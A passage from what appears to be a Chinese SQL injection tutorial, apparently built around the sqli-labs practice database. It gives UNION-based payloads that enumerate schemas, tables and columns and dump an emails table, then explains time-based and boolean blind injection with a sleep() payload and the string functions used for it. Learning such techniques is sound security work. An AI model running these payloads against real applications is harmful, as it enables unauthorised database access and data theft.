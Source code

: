 |     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```sql<br>// 库名<br>union select 1,group_concat(schema_name),3 from information_schema.schemata<br><br>union select 1,(select schema_name from information_schema.schemata limit 0,1),3<br><br>// 表名<br>union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'<br><br>// 列名<br>union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='emails'<br><br>// 数据<br>union select 1,group_concat(id,email_id),3 from security.emails<br>``` |

## [](#5-%E6%97%B6%E9%97%B4%E5%9E%8B%E7%9B%B2%E6%B3%A8--%E5%B8%83%E5%B0%94%E5%9E%8B%E7%9B%B2%E6%B3%A8)5 时间型盲注 & 布尔型盲注

盲注是注入的一种，指的是在不知道数据库返回值的情况下对数据中的内容进行猜测，实施 SQL 注入。盲注一般分为布尔盲注和基于时间的盲注和报错的盲注。

> **时间型**：通过注入特定语句，根据页面请求的物理反馈，来判断是否注入成功，如：在 SQL 语句中使用 sleep() 函数看加载网页的时间来判断注入点。
> 
> **布尔型**：页面只返回 True 和 False 两种状态 (类型) 页面。利用页面返回不同，逐个猜解数据。

适用场景：通常无法从显示页面上获取执行结果，甚至连注入语句是否执行都无从得知。

### [](#51-%E5%8E%9F%E7%90%86%E7%A4%BA%E6%84%8F)5.1 原理示意

`select * from user where id = '?'`

`?` 为用户输入，替代为：`4' and sleep(3)#`

实际执行的 SQL 语句：`select * from user where id = '4' and sleep(3)#`

当 ID = 4 存在时，sleep 3 秒

当 ID = 4 不存在时，直接返回

整条拼接出来的 SQL 是正确的就执行 sleep，前面错误（不存在），sleep(3) 不执行

### [](#52-%E5%B8%B8%E7%94%A8%E5%87%BD%E6%95%B0)5.2 常用函数

#### [](#521-%E7%BC%96%E7%A0%81%E8%BD%AC%E6%8D%A2%E5%87%BD%E6%95%B0)5.2.1 编码转换函数

`ord('a')`：将字符转化为 ascii 码

`ascii('a')`：将字符转化为 ascii 码

`char(97)`：将 ascii 转化为字符

#### [](#522-%E6%9D%A1%E4%BB%B6%E5%88%A4%E6%96%AD%E5%87%BD%E6%95%B0)5.2.2 条件判断函数

`if(exp1, exp2, exp3)`：exp1 成立，执行 exp2，否则执行 exp3。

case when then 函数：`select case when username="admin" then sleep(1) else "error" end from wp_user_`

#### [](#523-%E6%88%AA%E5%8F%96%E5%87%BD%E6%95%B0)5.2.3 截取函数

**substr 函数**

`substr(str, pos, len)`：从 pos 位置开始，截取字符串 str 的 len 长度

`substr(str from pos for length)` ：可以用在过滤了 `,` 的情况

**substring 函数**
